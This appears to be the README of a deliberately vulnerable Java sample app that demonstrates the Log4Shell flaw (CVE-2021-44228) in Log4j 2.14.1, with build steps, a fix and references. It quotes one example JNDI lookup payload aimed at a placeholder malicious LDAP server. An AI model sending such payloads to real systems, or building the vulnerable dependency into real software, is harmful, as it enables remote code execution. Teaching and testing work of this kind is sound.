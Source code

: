# Vulnerable Log4j Sample

This is a sample Java application that uses a vulnerable version of Log4j (2.14.1) which is affected by the Log4Shell vulnerability (CVE-2021-44228).

**WARNING**: This project is intentionally vulnerable and should only be used for testing and educational purposes in a controlled environment.

## Vulnerability Details

This application uses Log4j 2.14.1, which is vulnerable to the Log4Shell vulnerability (CVE-2021-44228). This vulnerability allows attackers to execute arbitrary code on the server by sending a specially crafted request that gets logged by Log4j.

The vulnerability is triggered when Log4j processes a log message containing a JNDI lookup, such as `${jndi:ldap://malicious-server/payload}`.

## Project Structure

```
vulnerable-log4j-sample/
├── build.gradle           # Gradle build configuration
├── src/
│   └── main/
│       ├── java/
│       │   └── com/
│       │       └── example/
│       │           └── vulnerable/
│       │               └── VulnerableApp.java  # Main application
│       └── resources/
│           └── log4j2.xml  # Log4j configuration
└── README.md              # This file
```

## Building and Running

To build the project:

```bash
cd vulnerable-log4j-sample
./gradlew build
```

To run the application:

```bash
./gradlew run
```

Or with a custom user input:

```bash
./gradlew run -Duser.input="Custom input"
```

## Security Note

This project is intentionally vulnerable and should only be used for testing and educational purposes in a controlled environment. Do not deploy this application in a production environment or expose it to untrusted networks.

## Fixing the Vulnerability

To fix the vulnerability, update the Log4j dependencies in the `build.gradle` file to version 2.15.0 or later:

```gradle
dependencies {
    implementation 'org.apache.logging.log4j:log4j-api:2.17.1'
    implementation 'org.apache.logging.log4j:log4j-core:2.17.1'
}
```

## References

- [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
- [OWASP Log4Shell Vulnerability Guidance](https://owasp.org/www-community/vulnerabilities/Log4Shell)